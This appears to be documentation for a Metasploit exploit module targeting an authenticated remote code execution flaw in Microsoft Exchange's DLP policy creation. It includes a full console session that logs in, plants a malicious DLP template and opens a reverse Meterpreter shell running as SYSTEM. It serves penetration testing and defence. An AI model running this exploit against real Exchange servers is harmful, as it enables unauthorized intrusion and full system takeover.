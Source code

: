 ## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code
on affected installations of Exchange Server. Authentication is
required to exploit this vulnerability. Additionally, the target user
must have the `Data Loss Prevention` role assigned and an active
mailbox.

If the user is in the `Compliance Management` or greater `Organization
Management` role groups, then they have the `Data Loss Prevention`
role. Since the user who installed Exchange is in the `Organization
Management` role group, they transitively have the `Data Loss
Prevention` role.

The specific flaw exists within the processing of the `New-DlpPolicy`
cmdlet. The issue results from the lack of proper validation of
user-supplied template data when creating a DLP policy. An attacker
can leverage this vulnerability to execute code in the context of
`SYSTEM`.

Tested against Exchange Server 2016 CU17 on Windows Server 2016.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server <= 2016 CU17 and 2019 CU6`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU17 on Windows Server 2016

```
msf6 > use exploit/windows/http/exchange_ecp_dlp_policy
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > options

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME                    no        OWA username
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server <= 2016 CU17 and 2019 CU6


msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set rhosts 192.168.123.178
rhosts => 192.168.123.178
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set username Administrator
username => Administrator
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set password Passw0rd!
password => Passw0rd!
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > run

[*] Started HTTPS reverse handler on https://192.168.123.1:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Exchange Server 15.1.2044 is a vulnerable build.
[*] Logging in to OWA with creds Administrator:Passw0rd!
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] DLP policy name: Abn Amro Corporate Finance Limited Data
[*] Powershell command length: 2472
[*] https://192.168.123.1:8443 handling request from 192.168.123.178; (UUID: jk8kdh8r) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.123.1:8443 -> 192.168.123.178:28314) at 2020-10-20 14:30:05 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-G2PGASM3QFA
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : GIBSON
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

